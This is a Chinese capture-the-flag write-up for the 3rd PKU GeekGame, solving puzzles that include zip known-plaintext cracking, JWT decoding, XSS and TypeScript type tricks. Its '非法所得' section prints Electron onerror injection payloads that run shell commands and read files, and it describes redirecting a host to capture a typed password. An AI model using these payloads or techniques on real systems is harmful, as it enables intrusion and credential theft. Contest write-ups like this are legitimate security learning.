




# 3rd PKU GeekGame Writeup

`参赛昵称: 雫るる今天吃一德格拉米`

`日期: 2023.10.21`

`环境: KUbuntu 22.04 + Windows 10`


## 一眼盯帧

可以看到得到的gif图像的每一帧上面都有一个字符，我们需要把gif的每一帧图像给取出来，new bing says:

```bash
convert prob23-signin.gif -coalesce %d.png
```

于是我们得到了24张图，把每一帧的图合起来得到一个字串:

```plaintext
synt{jrypbzrarjcynlref}
```

做一下凯撒密码，得到原串(offset=13):

```plaintext
flag{welcomenewplayers}
```


## 小北问答!!!!!

> 在北京大学（校级）高性能计算平台中，什么命令可以提交一个非交互式任务？                        

由[https://hpc.pku.edu.cn/_book/guide/slurm/slurm.html](https://hpc.pku.edu.cn/_book/guide/slurm/slurm.html)得到答案为`sbatch`。

> 根据 GPL 许可证的要求，基于 Linux 二次开发的操作系统内核必须开源。例如小米公司开源了 Redmi K60 Ultra 手机的内核。其内核版本号是？

先在[https://github.com/MiCode/Xiaomi_Kernel_OpenSource](https://github.com/MiCode/Xiaomi_Kernel_OpenSource)中找到 Redmi K60 Ultra 对应的branch: `corot-t-oss`，然后在[https://github.com/MiCode/Xiaomi_Kernel_OpenSource/tree/corot-t-oss](https://github.com/MiCode/Xiaomi_Kernel_OpenSource/tree/corot-t-oss)找到他的Makefile:

```makefile
# SPDX-License-Identifier: GPL-2.0
VERSION = 5
PATCHLEVEL = 15
SUBLEVEL = 78
EXTRAVERSION =
# ... ...
```

于是答案为`5.15.78`。

> 每款苹果产品都有一个内部的识别名称（Identifier），例如初代 iPhone 是 `iPhone1,1`。那么 Apple Watch Series 8（蜂窝版本，41mm 尺寸）是什么？

在页面[https://gist.github.com/adamawolf/3048717](https://gist.github.com/adamawolf/3048717)，我们可以找到答案为`Watch6,16`。

> 本届 PKU GeekGame 的比赛平台会禁止选手昵称中包含某些特殊字符。截止到 2023 年 10 月 1 日，共禁止了多少个字符？（提示：本题答案与 Python 版本有关，以平台实际运行情况为准）

可恶😡这b题目怎么还和Python版本有关的啊，令人感叹。

我们可以在[https://github.com/PKU-GeekGame/gs-backend/blob/master/src/store/user_profile_store.py](https://github.com/PKU-GeekGame/gs-backend/blob/master/src/store/user_profile_store.py)中找到后端的处理逻辑:

```python
from unicategories import categories
from typing import TYPE_CHECKING, Optional, Set

def unicode_chars(*cats: str) -> Set[str]:
    ret = set()
    for cat in cats:
        ret |= set(categories[cat].characters())
    return ret

# ... ...

    # https://unicode.org/reports/tr51/proposed.html
    EMOJI_CHARS = (
        {chr(0x200d)}  # zwj
        | {chr(0x200b)}  # zwsp, to break emoji componenets into independent chars
        | {chr(0x20e3)} # keycap
        | {chr(c) for c in range(0xfe00, 0xfe0f+1)} # variation selector
        | {chr(c) for c in range(0xe0020, 0xe007f+1)} # tag
        | {chr(c) for c in range(0x1f1e6, 0x1f1ff+1)} # regional indicator
    )

    # https://www.compart.com/en/unicode/category
    DISALLOWED_CHARS = (
        unicode_chars('Cc', 'Cf', 'Cs', 'Mc', 'Me', 'Mn', 'Zl', 'Zp') # control and modifier chars
        | {chr(c) for c in range(0x12423, 0x12431+1)} # too long
        | {chr(0x0d78)} # too long
    ) - EMOJI_CHARS
    WHITESPACE_CHARS = unicode_chars('Zs') | EMOJI_CHARS
   
# ... ...

```

可以看到`DISALLOWED_CHARS`就是大家想要的东西，但是在我的`Python 3.10`下跑出来的结果是`4472`。

最后用`Python 3.8`才跑出正确答案`4445`。

> 在 2011 年 1 月，Bilibili 游戏区下共有哪些子分区？（按网站显示顺序，以半角逗号分隔）

在[web.archive.org](https://web.archive.org)上找了好久，才看到这个2011.09.01的页面:


得到答案是`游戏视频,游戏攻略·解说,Mugen,flash游戏`。

> [这个照片](https://prob18.geekgame.pku.edu.cn/static/osint-challenge.jpg)中出现了一个大型建筑物，它的官方网站的域名是什么？（照片中部分信息已被有意遮挡，请注意检查答案格式）
>
> 

先把图上带英文的机构名称`tuspark zpark konza kacst`一起搜一遍，找到这样一篇报道[https://www.iasp.ws/activities/news/our-fantastic-partners-at-iasp2023-luxembourg](https://www.iasp.ws/activities/news/our-fantastic-partners-at-iasp2023-luxembourg)，大概是在Luxembourg举办的某个组织的某个活动。在IASP的官网的News中我们还能找到别的带有这个建筑物的报道，比如[https://www.iasp.ws/activities/news/an-exciting-social-programme-awaits-our-guests-at-iasp-2023](https://www.iasp.ws/activities/news/an-exciting-social-programme-awaits-our-guests-at-iasp-2023)，里面提到这个建筑物是Luxembourg Philharmonie。我们查询他的官网可以得到答案为`philharmonie.lu`。

于是得到两个flag：

```plaintext
flag{dang-ran-li-jie-ni-xin-zhong,}
flag{kenn-dingg-xiangg-zaii-woo-shou-zhoongg~~~}
```

~~我超我怎么是校内一血~~ ~~Python你害人不浅~~


## Z 公司的服务器

虽然给了流量包，但感觉协议不大好猜。原本以为是FTP但不是，搜了好久`File Protocol`都没找到合适的。结果第一阶段最后一小时忽然灵感来了:


这个Server给Client发的第一个包，该不会就是`rz\r`吧（噔 噔 咚）

我去，真是！

于是搜了一下`rz`，原来`rz`和`sz`是一组利用`ZMODEM`协议的传输文件的工具。然后我尝试`nc`到了服务器，结果就忽然弹出一个选择文件下载路径的窗口：


于是拿到了第一个flag：

```plaintext
flag{Anc1enT_tr4nsf3R_pr0tOcOI_15_57111_in_u5e_t0d4y}
```

最后一小时极限过题，~~我疑似是天才？~~

原本想把第二问也拿下的，但这个ZMODEM文档疑似有点恶心了，所以只能第二阶段解了。

看了很久文档[http://wiki.synchro.net/ref:zmodem](http://wiki.synchro.net/ref:zmodem)，我们需要解出的是Client收到的`ZDATA`段的内容，也就是这里面大小比较大的这几个包的内容。


我们把hex dump导到文件`zdata_raw.txt`，Prettify一下以便人眼阅读，得到`zdata_ptf.txt`。我们可以在数据的前面找到`ff d8`，在结尾找到`ff d9`，然后我们截取这两者之间的部分得到`zdata_ptf_inner.txt`。接下来我们就需要从中提取我们的jpg。

也许是我的英语阅读能力太烂了，又或许是这个文档写的有点烂，反正这个阅读理解我做了很久。首先，因为文档里出现了很多`18`，我们可以注意到，文档里说明`18`代表了对后一个字符的转义，`18 xx`代表了`xx ^ 0x40`。转义完之后，我们得到了一些奇怪的东西：



我们隐约可以辨认出`flag{`的字样，这说明我们的大方向是对的，但是少部分细节的处理有问题。

看了更久之后，我又看到了关于块结尾的规则：如果看到了`18 69`，说明来到了块结尾，之后会有4字节的CRC，接着是下一块的数据。我们把`18 69`和后面的CRC给去掉，就得到了正解:



```plaintext
flag{traFf1c_aNa1y51s_4_ZMODEM}
```

~~暴露了自己阅读理解能力低下的事实~~


## 基本功

### flag1

我们先查看`challenge_1.zip`的内容，里面是一个`chromedriver_linux64.zip`和一个`flag1.txt`。可以猜想是明文攻击。我们需要找到对应版本的`chromedriver_linux64.zip`，于是我写了一个脚本`ck.mjs`从[https://chromedriver.storage.googleapis.com/?delimiter=/&prefix=xxx/](https://chromedriver.storage.googleapis.com/?delimiter=/&prefix=xxx/)获得zip文件对应的size，可以发现版本89.0.4389.23大小为5845152，正好是我们要的压缩包。我们用工具pkcrack：

```bash
./bin/pkcrack -c "chromedriver_linux64.zip" -p chromedriver_linux64.zip -C challenge_1.zip -P build/c_1.zip -d decrypt.zip
```

（其中c_1.zip的内容是chromedriver_linux64.zip），得到了decrypt.zip，其中的flag1.txt就有我们的flag:

```plaintext
flag{Insecure-Zip-Crypto-From-Known-File-Contents}
```

### flag2

`challenge_2.zip`中只有一个文件`flag2.pcapng`，我们应该找到pcapng文件的格式并进行明文攻击，但我一开始找成pcap文件以至于第一阶段没能解压出来😭

在[https://pcapng.com/#SHB_BlockType](https://pcapng.com/#SHB_BlockType)我们看到pcapng文件的开头有如下格式:

```plaintext
0a 0d 0d 0a .. .. .. .. 4d 3c 2b 1a .. .. .. ..
ff ff ff ff ff ff ff ff .. .. .. .. 
```

我们可以确定文件[0:4],[8:12],[16:24]的内容，这样我们就可以用bkcrack来明文攻击：

```bash
../bkcrack/build/src/bkcrack -C challenge_2.zip -c flag2.pcapng -p h.bin -o 16 -x 0 0a0d0d0a -x 8 4d3c2b1a
```

其中`h.bin`包含了8个字节的`ff`。我跑了好几个小时终于跑出了一组key:`83831826 8f38e78b 139998e6`。

然后解密并解压:

```bash
../bkcrack/build/src/bkcrack -C challenge_2.zip -c flag2.pcapng -k 83831826 8f38e78b 139998e6 -d dec
python3 ../bkcrack/tools/inflate.py < dec > dec.pcapng
```

然后在得到的pcapng文件中，我们找到如下内容:


这便是我们的flag2:

```plaintext
flag{inSecUrE-zip-crypTO-eVeN-withOuT-KNOWN-fiLe-CoNtENT}
```


## Dark Room

### flag1

地图大致长这个样子：


其中拿Trinket和Latte对Sanity有增益，拿道具和开门的动作也对Sanity有增益，但Sanity也会随着操作次数而下降。还有一个Help操作可以有一定几率增加Sanity，但有一定几率减少Sanity。第一个flag的目标是以117%以上的Sanity过关。而理论上不Help时最优的操作到结尾也不能让Sanity高于100%。

我一开始想的做法是写个自动脚本，每次在Door 2前Help，直到Sanity足够。但是我跑了一会感觉几率太低，于是就玉玉开摆了。结果第一阶段最后一天（又是这天x）我看源代码的时候看到（[https://github.com/tinichu316/Dark_Room/blob/master/player.py](https://github.com/tinichu316/Dark_Room/blob/master/player.py)，Line 163）：

```python
def useItemTarget(self, item):
    target = self.location
    doorCheck = item['doorCheck']
    item = item['item']
    #target is the player's room [x,y]
    # doorCheck is what the player wants to use the item with (confusing, I know)
    targetRoom = world.tileExists(target[0],target[1])
    if item == "key" and doorCheck == "door":
        keyType = 0 #1 is key 1, 2 is both keys
        if self.inventory[4]:
            keyType = 2
        elif self.inventory[3]:
            keyType = 1
        else:
            print("You don't have a key!\n")

        if targetRoom.doorType == 0:
            print("There's no door here to unlock.\n")
        elif keyType == targetRoom.doorType or keyType == 2:
            targetRoom.unlock()
            self.sanity += 3 # !!! !!!
        else:
            print("That key doesn't fit here.\n")
    # ... ...
```

注意到你可以重复开门来刷Sanity，于是我们愉悦过关，得到了flag1:

```plaintext
flag{y0u_Play_GamE_vErY_WEl1}
```

这个感觉很像去年的“智慧检测器”那道题，居然是非预期解吗（

### flag2

然后第二关则需要进入图中的Flag Room。进去执行getflag命令之后，他会让我们猜数：


实在不知道输什么，我们简单砸个键盘：


感觉看到了有趣的东西，我们从部分的源代码中可以看出，每次猜数都会取`flag_number`的最后一位进行操作。那么这个`getStrongPrime()`又有什么意义呢？我们再手玩一会试试，可以发现有的时候的时候他会马上反应，有时候他会过几秒再输出结果。这个时候我们应该反应过来，`getStrongPrime()`是一个比较耗时的函数，那么我们可以用此次猜测的耗时来知道`flag_number`的尾位。

于是我写了个`runner.py`，用`pwntools`和服务器连接，每次猜测并看他是否立刻返回。再把结果记录到文件里。最后flag2就是这个二进制数所对应的ascii字串：

```plaintext
flag{You_s0LVeD_tH1s_chALleNge_excEllENtLy}
```


## 麦恩·库拉夫特

> 感觉这题不是很友好啊😡😡😡提示除了钻石块以外感觉p用没有，拿个望远镜我还以为是要找什么特殊地形然后弄成地图再来个什么二维码识别什么的（混乱中）（叶子的新歌后遗症），结果两问都是NBTExplorer有点难绷。这红石电路更是个重量级，读不读的出正确的流纯看命是吧。提示放了跟没放一个样。这下真不如O神了😄

### flag1 & flag2

如上所说，我们只用拿NBTExplorer在存档里搜索`minecraft:diamond_block`就能找到三个flag所在的位置。（话说为啥这个B东西跑那么慢，解析50M的文件真的要那么久吗~~还是我电脑太烂了~~）

三个flag分别在Chunk(11,9), Chunk(35,-7), Chunk(204,-119)。 

然后我们找到了flag1和flag2：




得到了两个flag:

```plaintext
flag{Exp0rIng_M1necRaft_i5_Fun}
flag{pAR3inG_ANvI1_iSeAaasY2}
```

### flag3(failed)

然后又是批判红石电路环节。第三问是有一个红石电路实现的硬盘，会以2.5Byte/s的速度向外输出用红石强度0~15表示的信号。因为数据量有2KB，手读是过于痛苦的，我的想法是定时侦测红石状态并输出到命令行，再将命令行输出转化为数据。定时侦测并输出就成为了问题的关键。我尝试了以下操作：


* 他有一个红石灯显示屏，硬盘的输出会先转化成16条0/1信号再传给显示屏，如上图。我们把01信号和命令方块接在一起，用`say`命令输出即可。但这样无法识别多个1。
* 把01信号和活塞相连，然后拿命令方块识别活塞状态。但活塞貌似有延时，这样信号会乱掉。
* 将命令方块和4刻的信号发生器连接，每次激活识别方块状态。这样貌似信号也会乱掉。
* 把01信号和命令方块相连，命令方块设置成被红石激活时每tick循环执行命令。这样输出的字节流里面理论上来说每5个字符表示一个信号。我们已经可以从输出结果中找到`89 50 4e 47 0d 0a 1a 0a `和`49 45 4e 44 ae 42 60 82`这样的`PNG`文件的特征了，但是大概是由于信号不稳定，每个信号并不是严格对应5个字符，这也可能导致了解出来的二进制流不能对应合法的`PNG`文件。
* 貌似将16进制输出转为01信号并不是一个很同步的操作，那么我们是否可以找到直接监测16进制红石信号的方式呢？我没有找到方法。`execute if`命令貌似不能获得红石信号大小的信息。想借助外部工具，或者魔改非原版客户端来获得红石方块信息，但是却没能成功。

在第三小题上我花费了大量的时间，但是却没能成功获得答案。我先respect一下做出来这道题的选手。

然后冷静下来理性讨论一下，我觉得出题人的本意是好的，用mc出题还是有点意思的。但是可能执行上确实有些问题：第一第二问重合度过高的问题暂且不谈，红石电路这道题确实太玄学了。可能是我缺乏红石电路知识，但是我个人觉得想要获得稳定的信号输出流确实是难以办到而且有一定随机性的事情。这种好像只差临门一脚却又总是随机掉链子的感觉确实太过于折磨了（笑）


## Emoji Wordle

### flag2

我们可以看到Flag2和Flag3的数据是存在cookie的`PLAY_SESSION`里的，我们先从flag2入手。

我们把`PLAY_SESSION`先做一遍base64(解不出来就尝试去掉尾部几个字符)：

```plaintext
b'{"alg":"HS256"}{"data":{"level":"2","remaining_guesses":"8","target":"\\uD83D\\uDC6A\\uD83D\\uDC44\\uD83D\\uDC85\\uD83D\\uDC44\\uD83D\\uDC48\\uD83D\\uDC55\\uD83D\\uDC74\\uD83D\\uDC40\\uD83D\\uDC7B\\uD83D\\uDC43\\uD83D\\uDC5E\\uD83D\\uDC76\\uD83D\\uDC87\\uD83D\\uDC46\\uD83D\\uDC76\\uD83D\\uDC84\\uD83D\\uDC43\\uD83D\\uDC5C\\uD83D\\uDC69\\uD83D\\uDC64\\uD83D\\uDC67\\uD83D\\uDC60\\uD83D\\uDC43\\uD83D\\uDC40\\uD83D\\uDC5C\\uD83D\\uDC7B\\uD83D\\uDC75\\uD83D\\uDC43\\uD83D\\uDC63\\uD83D\\uDC59\\uD83D\\uDC83\\uD83D\\uDC82\\uD83D\\uDC80\\uD83D\\uDC7C\\uD83D\\uDC53\\uD83D\\uDC56\\uD83D\\uDC69\\uD83D\\uDC88\\uD83D\\uDC53\\uD83D\\uDC5F\\uD83D\\uDC49\\uD83D\\uDC44\\uD83D\\uDC69\\uD83D\\uDC3F\\uD83D\\uDC5B\\uD83D\\uDC5E\\uD83D\\uDC7B\\uD83D\\uDC7E\\uD83D\\uDC53\\uD83D\\uDC81\\uD83D\\uDC7A\\uD83D\\uDC74\\uD83D\\uDC40\\uD83D\\uDC79\\uD83D\\uDC8A\\uD83D\\uDC5A\\uD83D\\uDC3F\\uD83D\\uDC48\\uD83D\\uDC67\\uD83D\\uDC48\\uD83D\\uDC41\\uD83D\\uDC66\\uD83D\\uDC6A\\uD83D\\uDC8A"},"nbf":1697888294,"iat":1697888294}\x17\x8a2[o\xac\xe2t q\x8e\xa4\x89\xe1\x87w%\x8a\xee\x08\\\xfbb\xcb\x83\x92[J\x9fr\xda'
```

实际上面的东西叫JWT（Json Web Token），最后那一串bytes是密钥。我们可以看到target里面大概就是编码表示的emoji串。我原本是把它放到Firefox控制台里然后删掉重复斜杠并log得到emoji串的，但是写Writeup的时候我才发现可以用[https://jwt.io/](https://jwt.io/)直接解析jwt，我们得到：

```json
{
  "data": {
    "level": "2",
    "remaining_guesses": "8",
    "target": "👪👄💅👄👈👕👴👀👻👃👞👶💇👆👶💄👃👜👩👤👧👠👃👀👜👻👵👃👣👙💃💂💀👼👓👖👩💈👓👟👉👄👩🐿👛👞👻👾👓💁👺👴👀👹💊👚🐿👈👧👈👁👦👪💊"
  },
  "nbf": 1697888294,
  "iat": 1697888294
}
```

这样我们就解出了flag2:

```plaintext
flag{d3c0d1n9_jwT_15_345y}
```

### flag1

然后我们去做flag1。因为序列是不变的所以我们写脚本暴力枚举。

一开始我不清楚字符集有多大，于是我取了一次placeholder作为字符集进行尝试，如`bf.mjs`所示。当我试到还剩5个空位的时候我发现推不下去了，大概还有别的字符。此时我必须先弄清楚可行的字符集是什么。我在脚本的开头先不断获取页面，将placeholder加入字符集，然后发现加到128个时字符集大小不再变化。我们合理猜想字符集大小为128。然后我们再进行枚举就可以猜出整个序列，如`five.mjs`所示。

序列和flag分别为：

```plaintext
💈💅👼💁👦👗💊💊👱👇👔💆👺👦👓👳👔👉👞💄👧👘💃👺👸👴👿👙👵💆👩👽👛👓👦👝👢💃💅👶👅💈👈💅👼👁👃💂👆👄👂👳👲👢💆👤👜👆👺👱👺👛👆👡
flag{s1Mp1e_brut3f0rc3}
```

### flag3(failed)

实在是没有整出来。这次的token里面有个seed。因为服务器是没有状态的，那么我猜我每次只要重新生成对应的jwt就能一直尝试下去。但是好像每次生成出来的结果不一样，可行字符集越来越少最后直接没了，玉玉了。


## 第三新XSS

### flag1

给了提示之后终于找到了正确的参考文档，~~为什么之前就搜不到呢？搜索技巧卡在这里了😡~~ ~~小北一血是这样的~~

我们只要搞个\<iframe>然后访问他的`contentDocument.cookie`就行了。但是试了好几次都没有输出结果。为什么啊？哦原来是script执行的时候iframe还没加载出网页导致的。我们整个`setTimeout`让他延时设置标题就好了。代码如`payload1.html`所示，flag如下：

```plaintext
flag{TotALlY-nO-sECuRItY-In-the-sAme-oRIgiN}
```

### flag2(failed)

看了ServiceWorker但是没搭成功，一直报DomError，于是就放弃了。


## 简单的打字稿

> 这为啥不是misc题啊🤡这怎么看都是个misc吧🤡总不会是沾了Typescript就叫Web题了吧

### flag1

Typescript真的纯纯不会，类型推导完全写不来，只能进行一些搜索引擎的搜。

先是参考了两个比较好的教程：[https://zhuanlan.zhihu.com/p/452657140](https://zhuanlan.zhihu.com/p/452657140)和[https://cloud.tencent.com/developer/article/2287845](https://cloud.tencent.com/developer/article/2287845)，在里面找到了如下类型：

```typescript
type StartWith<Str extends string, Prefix extends string> = Str extends `${Prefix}${infer Rest}` ? true : false;
```

用来判断一个字面量是否是另一个字面量的前缀，然后我脑子一抽，想到了如下b操作：

```typescript
type StartWith<Str extends string, Prefix extends string> = Str extends `${Prefix}${infer Rest}` ? true : false;
type Checker<Prefix extends string> = StartWith<flag1, Prefix>;
const a : Checker<‘flag{xxx’> = true;
```

这个脚本没报错等价于`flag{xxx`是flag的前缀，那么我们就从`flag{`开始，不断枚举下一个字符是否正确😆。如脚本`baole.mjs`所示。得到flag：

```plaintext
flag{tOo0_e4sY_f1ag_foR_tooo_Easy}
```

(Easy后面可能还有一个单词，当时试完是凌晨7点，~~人都要飞起来了导致的~~忘记保存了，但反正Easy前面都是对的)

### flag2

噔 噔 咚

```typescript
type flag2 = object | (new () => {
    v: () => (a: (a: unknown, b: {
        'flag{xxx}': never;
    } & Record<string, string>) => never) => unknown;
})
```

上面是我们的flag2，我们第一个目标是从类型`flag2`中提取出关键的字面量。

感觉有点像剥洋葱一样，一点一点从外往里剥。只能狠狠的拷打new bing来维持生活这个样子:

1. 先去掉object。因为右边的类型也属于object我们不能直接把object剥离，但我们可以取其函数返回值，此时左边为never，取并之后就只剩右边了。然后我们顺便把返回值的v属性值给取出来。

```typescript
type ConstructorReturnType<T> = T extends new () => infer R ? R : never
type t1 = ConstructorReturnType<flag2>['v']; // () => (a: (a: ..., b: ...) => never) => unknown
```

2. 取出外层的返回值，然后再取出内层的参数，其中第二个就是b对应的类型。

```typescript
type ExtractInner<T> = T extends () => (arg: infer P) => unknown ? P : never;
type FunctionParameters<T> = T extends (...args: infer P) => any ? P : never;
type t2 = FunctionParameters<ExtractInner<t1>>[1]; // {'flag{xxx}' : never} & Record<string, string>
```

3. 去掉右边的`Record`。尝试的最久的一个地方。因为这就相当于替换掉一个key对应value类型，其他不变的一个record，用一般的mapped type + keyof的方案貌似不能取出flag。在[https://stackoverflow.com/questions/51465182/how-to-remove-index-signature-using-mapped-types](https://stackoverflow.com/questions/51465182/how-to-remove-index-signature-using-mapped-types)，我找到了我需要的方法：

```typescript
type NeverKeys<T, R> = { [K in keyof T]: T[K] extends never ? string : R };
type t3 = NeverKeys<t2, never>; // {[x: string]: never, 'flag{xxx}': string}
type RemoveIndex<T> = { [ K in keyof T as string extends K ? never : number extends K ? never : symbol extends K ? never : K] : T[K];}; // !!! Important
type temp = keyof RemoveIndex<b1>; // 'flag{xxx}'
```

于是我们得到了字面量，此时我想用类型推导的方式去掉前面的flag前缀防止被申鹤，然后在报错信息中读flag的内容，但不知道为啥失败了，于是我只能还是采用枚举前缀的方式，如`kaida.mjs`所示。得到flag：

```plaintext
flag{Ts_fLaG_bETteR_tHAn_PytH0n}
```

> 感觉是个不怎么带脑子的暴力非预期()


## 非法所得

按照做题顺序排列一下。

### flag3

看到Github Issue感觉会了，漏洞在于他是Electron框架，然后软件不加转义的把属性值给贴到页面上，页面直接把他当html解析了。所以我们只要在属性里面包含一个\标签，给他一个不可用的src，再在onerror事件里插入恶意代码，这个代码就会在这个页面显示的时候被执行。

然后我们把构造好的Payload yaml放到任意的pastebin网站上，把raw text链接喂给Import就可以了。

但是直接抄了里面的Payload结果P用没有，怎么卡在这里了呢？想了一下，或许是一些引号转义在不同平台上表现不同，但感觉至少直接解析img标签的漏洞应该是不随平台变化而变化的。那我就不断尝试在onerror里面加东西，然后发现把onerror改成：

```javascript
this.alt=require('child_process').execSync('/app/readflag').toString()
```

时，是能让标签显示`readflag`的执行结果的，如下图：


### flag1

我一开始想的是，或许有什么路径穿越的操作，可以让Import处获得`flag.yml`的链接。结果看完RCE的漏洞之后，我发现直接用这个漏洞读`/app/profiles/flag.yml`再显示在标签里就好了，payload如下(因为显示不下整个文件所以截一个子串)：

```javascipt
this.alt=require('fs').readFileSync('/app/profiles/flag.yml','utf8').substr(85,40)
```

结果如下图：


（这不会也是非预期吧

### flag2

看源代码可以知道，visit操作在访问的host为`ys.pku.edu.cn`时，会在页面的id为`primogem_code`的密码输入框中输入flag。那么我们的任务有两个：1. 将host为`ys.pku.edu.cn`的请求导到某个我们控制的页面 2. 搭建一个能被容器访问到的网页服务

对于第一点，我搜到了cfw配置文件的hosts字段，hosts字段可以用来定义域名到IP地址的映射。

那么我们就要搭建一个有固定ip的http服务器，原本我想用github pages，但是他没有固定ip。然后我想到这个环境应该是搭在校内的，所以直接在本机上跑`python HTTPServer`好像也没啥问题。

最后设计页面的时候，因为不能直接看到密码输入框的内容，同时吸取之前`xssbot`那题的经验，我们设个定时器，定时将文本框内容复制到旁边的div里，于是我们得到了下图：


三个flag分别为：

```plaintext
flag{C1aShC0r3IsUNs3cuRE}
flag{badPr0xyCaus3sBAD0utcoM3}
flag{UnS3curEP0weRedBye1ectron}
```

> 看了一下pastebin，解这个题提交了30+个payload，令人感叹。


## 汉化绿色版免费下载

### flag1

查了一下这个.xp3的后缀，貌似是一个kirikiri的Galgame引擎的数据文件。原本我想用xp3viewer去解包，但是不管是Windows 10还是Ubuntu + Wine貌似都run不了的样子。自暴自弃的我用Binwalk尝试看了一下，然后发现.xp3可以解出好多东西，感觉像是把文本和程序和图片文件还有一些奇奇怪怪的文件打包起来的一个包。



~~反正搞不出xp3viewer不如我随便~~ `binwalk -e`梭哈一把，先看看里面的文本文件。

`_data.xp3.extracted/`目录下比较重要的文本有`244AC9`,`244C57`,`15956`,`244822`,`244964`这五个，分别看着就像游戏在某一个页面的脚本。

其中`244822`中的内容如下：

```plaintext
*done|结束

@if exp="f.hash == f.prev_hash"

@bg storage="66ccff"
输入正确！大概。[l][r]
感谢配合，Flag 1 是：[font color="0x66ccff" size=0]flag{did-you-unpack-the-xp3?}[resetfont]。[l][r]
Flag 2 是出题人在存档里输入的内容。[l][r]

@else

... ...
```

这个应该是输入结束的结算界面，我们找到了flag1：

```plaintext
flag{did-you-unpack-the-xp3?
```

需要注意的是`@if exp="f.hash == f.prev_hash"`这句，猜测的结果是通过hash值比较得到的，~~该不会是字符串hash吧~~（~~还真是~~），为第二问做出铺垫()

### flag2

那我们现在观察另一个文件`244AC9`，这是第一次输入的页面脚本：

```plaintext
@eval exp="f.text = 'flag{'"
@eval exp="f.hash = 1337"

*round_1|输入第一遍

首先输入第一遍。[p]

*sel_loop|第一次输入

@jump storage="round2.ks" cond="f.text.charAt(f.text.length-1)=='}'"

当前文本：[emb exp="f.text"][r]

[link target=*sel_a clickse="SE_306"]> 输入 A[endlink][r]
[link target=*sel_e clickse="SE_306"]> 输入 E[endlink][r]
... ...
[s]

*sel_a
@eval exp="f.text = f.text + 'A'"
@eval exp="f.hash = f.hash * 13337 + 11"
@jump target=*sel_end

... ...

*sel_end
@eval exp="f.hash = f.hash % 19260817"

输入完成！[p]
@jump target=*sel_loop
```

可以看出程序的逻辑是以`hash = 1337`为初始值，每次输入字母就做`hash = (hash * 13337 + val(ch)) % 19260817`的操作（`val(ch)`是字母`ch`对应的权值）。那么我们需要找出题人第一遍输入得到的`prev_hash`。

那我们对存档文件故伎重施，`binwalk`一把`data0`，得到文本文件`15`，足足有40.2KB，里面是以某种格式存储的有层次的数据，搜索文件得到`prev_hash = 7748521`。有了Hash值，我们还需要知道字串的长度才能获得有限个解，获得字符的个数分布能更好缩小解集。那我们还有两个文件也一起解包了，在` savedata/_datasu.ksd.extracted/15 `中都是像` "trail_round2_sel_o" => int 1`这样的项，虽然不大确定，我们可以猜测这个是前一个玩家选择该选项，或者说，程序执行到这个标号的次数。

